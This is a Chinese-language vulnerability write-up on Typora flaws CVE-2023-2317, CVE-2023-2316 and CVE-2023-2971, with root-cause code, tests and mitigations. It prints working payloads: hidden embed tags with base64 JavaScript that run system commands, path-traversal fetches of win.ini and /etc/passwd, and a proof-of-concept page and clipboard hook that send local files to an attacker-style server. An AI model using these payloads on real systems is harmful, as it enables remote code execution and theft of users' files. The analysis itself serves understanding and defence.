




> [CVE-2023-2317 Typora远程代码执行漏洞](https://mp.weixin.qq.com/s/hMMqhVxx8YBokNrSM-__fQ)
>
> [CVE-2023-2971Typora Local File Disclosure (Patch Bypass)](https://www.ctfiot.com/131732.html)

 Windows和Linux版本1.6.7之前的Typora中的updater/update.html中存在基于DOM的XSS，该漏洞允许通过加载特制的markdown文件从而使得执行任意JavaScript代码。如果用户打开恶意markdown文件或者从恶意网页复制文本并将其粘贴到Typora，通过在＜embed＞标签中引用update.html，则可以利用此漏洞，此外，攻击者可以使用特权接口reqnode访问节点模块child_process并执行任意系统命令。 


在Typora中嵌入下面的两个标签，渲染后人眼无法看到任何内容。

```xml
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

    reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

    reqnode('child_process').exec(({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
```

其中，

 %22 :"

 %2f :/

 %3c :<

base64编码的内容为：

```
reqnode('child_process').exec(
({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})
[navigator.platform.substr(0,5)])
reqnode('child_process').exec(
({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})
[navigator.platform.substr(0,5)])
```

<embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

## 2317漏洞原理

```js
<script type="text/javascript">
      var curVersion = /[?&]curVersion=([^&]+)/.exec(window.location.search)[1];
      var newVersion = /[?&]newVersion=([^&]+)/.exec(window.location.search)[1];
      var labels = JSON.parse(decodeURIComponent(/[?&]labels=([^&]+)/.exec(window.location.search)[1]));

      document.querySelector("#sum").innerText = labels[4] + " " + labels[5].replace("$1", newVersion).replace("$2", curVersion);
      document.querySelectorAll("[data-label]").forEach(function(dom){
        dom.innerHTML = labels[dom.getAttribute("data-label") - 0];
      });

      var autoUpdateInput = document.querySelector("#preference-enable-auto-update")
      autoUpdateInput.checked = !!isAutoUpdateEnabled;
      autoUpdateInput.onchange = toggleAutoUpdate;
    </script>
```

 `window.location.search`: 返回URL的查询字符串，即"?"后面的部分。 

```
curVersion=111&newVersion=222&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
```

- 数组索引 `0` 将包含整个匹配，例如：`newVersion=222`
- 数组索引 `1` 将只包含捕获组的匹配，即：`222`

此时，curVersion被设置为111，newVersion被设置为222。

JSON.parse后，labels被设置为Javascript数组：

```
["","<svg/onload=top.eval(atob('b64_string'))></svg>","","","",""]
```

含有6个元素的labels数组，

 在顶级窗口上下文中执行解码后的字符串作为JavaScript代码。 

## 测试

在0.9beta版本里，发现并不能够成功执行payload.

首先，是updater.html的路径不对。

[1.6.7之后的版本](#2971漏洞原理)，可以把"typora://app/typemark"解析成 [Typora Installation Absolute Path]/resources/ ，但是0.9版本没有这个功能；

而且两个版本的目录也有很大差异。

```
typora://resources/app/updater/updater.html
```

```xml

<embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
​```
reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
​```
<embed style="height:0;" src="typora://resources/app/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
​```
reqnode('child_process').exec(({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
​```
```

修改后，发现成功触发到updater.html。



 但是SVG元素的`onload`事件代码被浏览器阻止了，因为它尝试在一个跨域的frame中访问当前的frame，这违反了同源策略。



 

##   CVE-2023-2316 路径遍历漏洞

```javascript
fetch('typora://app/C:/windows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
```



仍然是针对Typora1.6.5的，0.9很安全。

### 2316漏洞修补

在Typora 1.6.5中添加了一个健全性检查， 

`[1]` 以确保路径以字符串 `typemark` 开头，

[2]消除了传递以 `/`  或者`C:\\` 开头的绝对路径的可能性。 

### 2316修补的绕过

- Approach 1: Using `..%5C` (Windows-only):
  方法 1：使用 URL编码`..%5C` （仅限 Windows）：

  ```javascript
  fetch('typora://app/typemark/..%5C..%5C..%5C..%5C..%5C..%5C..%5CWindows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
  ```

- Approach 2: Passing `../` in URL fragment `#`:
  方法 2：URL 片段 `#` 中传入 `../` ：

  ```javascript
  fetch('typora://app/typemark#../../../../../../../../Windows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
  ```

## CVE-2023-2971路径遍历漏洞

### 影响范围

 Typora for Windows/Linux < 1.7.0-dev
 实际测试的版本：

Typora for Windows 1.6.7, Typora for Linux 1.6.6 

 在Windows和Linux上的1.7.0-dev之前，Typora中的不当路径处理允许构建的网页访问本地文件并通过“typora://app/typemark/”将其泄露到远程Web服务器。如果用户在 Typora 中打开恶意md文件，或从恶意网页复制文本并将其粘贴到 Typora 中，则可利用此漏洞。 

### POC

#### 利用方式1，打开恶意markdown文件

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Typora 1.6.7 Local File Disclosure Proof-of-Concept</title>
</head>
<body>
<pre id="log" style="background: #eee; width: 100%;"></pre>
<script>
    const log = t => {
        document.getElementById("log").textContent += t + '\r\n';
        fetch('//example.localtest.me/send-file-to-attacker-server', {mode: 'no-cors', body: t, method: 'POST'})
    }
    log('location.origin: ' + location.origin)
    log('navigator.platform: ' + navigator.platform)
    log(' ')
    if(navigator.platform === 'Win32'){
        log('Content of your C:\\Windows\\win.ini:')
        fetch('typora://app/typemark/%5C..%5C..%5C..%5C..%5C..%5C..%5CWindows/win.ini').then(r=>r.text()).then(r=>{log(r)})
    } else {
        log('Content of your /etc/passwd:')
        fetch('typora://app/typemark#/../../../../../../../../etc/passwd').then(r=>r.text()).then(r=>{log(r)})
    }
</script>
</body>
</html>
```

将上面的HTML文件另存为 `poc1.html` 并将其存放到Web服务器，然后将此行

```
 <embed src="http(s)://YOUR-WEB-SERVER/poc1.html">
```

附加到任何markdown文件中。

在poc执行后，

1. 尝试在Windows或 `/etc/passwd` Linux上阅读 `C:/Windows/win.ini` ，
2. 在网页中显示文件的内容，
3. 将文件发送到外部 URL `example.localtest.me` （此域解析为 127.0.0.1 仅用于演示目的）。

#### 利用方式2 编辑网页上的copy事件

 攻击者可以手工创建恶意网页，并使用以下代码挂接 `copy` 事件： 

```js
<script>
    document.addEventListener('copy',e=>{
        e.preventDefault();
        //&#x3c;embed style="height:0;" src="https://o.cal1.cn/cab3e723540d9948-typora-167-poc/local-file-disclosure.html">&#x0d;&#x0d;
        let payload = atob('JiN4M2M7ZW1iZWQgc3R5bGU9ImhlaWdodDowOyIgc3JjPSJodHRwczovL28uY2FsMS5jbi9jYWIzZTcyMzU0MGQ5OTQ4LXR5cG9yYS0xNjctcG9jL2xvY2FsLWZpbGUtZGlzY2xvc3VyZS5odG1sIj4mI3gwZDsmI3gwZDs=');
        e.clipboardData.setData('text/markhtml', `\x20\x0d\x0a\x0d\x0a` + payload + window.getSelection());
        console.log(payload + window.getSelection())
    })
</script>
```

 当受害者从此页面复制文本时，有效负载将添加到复制的内容中，并在粘贴到 Typora 时触发。 

 ```
 
 
 <embed style="height:0;" src="https://o.cal1.cn/cab3e723540d9948-typora-167-poc/local-file-disclosure.html">


 ```

相当于在Typora中内嵌了上面的内容



### 2971漏洞原理

> 为了在Typora编辑器中加载本地资源，在 `resources/app.asar/atom.js`, 自定义了URL模式`typora://`，通过`electron.protocol.registerFileProtocol` API注册.  
>
> 处理 `typora://`的代码片段如下 : 

```js
m.registerFileProtocol(e, function(e, t) {
    e.url ? t({
        path: c.getRealPath(e.url)
    }) : t({
        error: -324
    })
}),

c.getRealPath = function(e) {
    try {
        e = decodeURI(e)
    } catch (e) {}
    e = e.substr(13);//截取到模式选项
    if (/^userData/i.exec(e))
        e = e.replace(/^userData/, c.getPath("userData").replace(/\\/g, "\\\\"));
    else {
        if (!/^typemark/i.exec(e))      // [1]
            return console.warn("reject access to path", e),
            "";
        e = e.replace(/^typemark/, t)       // [2]
    }
    return /current-theme\.css$/.exec(e) && (e = e.replace(/current-theme\.css$/, c.setting.curTheme())),
    e = (e = /preview\.html/.exec(e) ? e.replace(/\.html[?#].*$/, ".html") : e).replace(/[?#][^\\\/]*$/, "")
}
```

 例如，当主窗口尝试加载 `typora://app/typemark/window.html` 时，URL 将从 转换 `[Typora Installation Absolute Path]/resources/window.html` 和加载。 

## 漏洞缓解和漏洞建议

 对于使用受此漏洞影响的版本的最终用户，建议 （1） 不应在 Typora 中打开任何不受信任的 markdown 文件，以及 （2） 应避免从不受信任的网页复制文本然后将其粘贴到 Typora 中。 

 禁止 http 网页访问 `typora://` 资源。 如在浏览器和Typora0.9版本中规定的那样。